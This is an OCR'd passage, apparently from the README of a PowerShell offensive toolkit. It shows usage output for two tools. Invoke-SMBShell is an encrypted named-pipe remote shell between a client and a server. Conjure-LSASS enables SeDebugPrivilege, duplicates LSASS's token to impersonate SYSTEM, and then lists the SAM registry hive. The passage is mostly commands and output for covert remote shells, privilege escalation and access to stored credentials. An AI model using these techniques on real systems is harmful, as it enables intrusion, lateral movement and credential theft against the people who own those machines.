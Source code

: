 ```

SMB shell: calc
Job SMBJob-dVkIkAkXINjMe09S completed successfully!

SMB shell: exit

[!] Client disconnecting..
[!] Terminating server..

PS C:\>
```

**Client:**
```
# Client disconnected because of "leave" command
PS C:\> Invoke-SMBShell -Client -Server 0AK -AESKey q6EKfuJTX93YUnmX -Pipe tapsrv.5604.yk0DxXvjUD9xwyJ9
# Client disconnected because "exit" command kills client/server
PS C:\> Invoke-SMBShell -Client -Server 0AK -AESKey q6EKfuJTX93YUnmX -Pipe tapsrv.5604.yk0DxXvjUD9xwyJ9
```

### Conjure-LSASS

Use the SeDebugPrivilege to duplicate the LSASS access token and impersonate it in the calling thread. If SeDebugPrivilege is disabled the function will re-enable it.

```
Conjure LSASS into our midst! ;)
C:\PS> Conjure-LSASS

[?] SeDebugPrivilege is available!

[+] Current process handle: 852

[>] Calling Advapi32::OpenProcessToken
[+] Token handle with TOKEN_ADJUST_PRIVILEGES|TOKEN_QUERY: 2000

[?] SeDebugPrivilege is enabled!

[>] Calling Advapi32::OpenProcessToken --> LSASS
[+] Token handle with TOKEN_IMPERSONATE|TOKEN_DUPLICATE: 1512

[>] Calling Advapi32::DuplicateToken --> LSASS
[+] Duplicate token handle with SecurityImpersonation level: 2008

[>] Calling Advapi32::SetThreadToken
[+] Knock knock .. who's there .. LSASS
[+] User context: SYSTEM

C:\PS> whoami
ERROR: Access is denied.
ERROR: Access is denied.

C:\PS> Get-ChildItem -Path hklm:SAM

    Hive: HKEY_LOCAL_MACHINE\SAM


SKC  VC Name                           Property
---  -- ----                           --------
  3   2 SAM                            {C, ServerDomainUpdates}
```
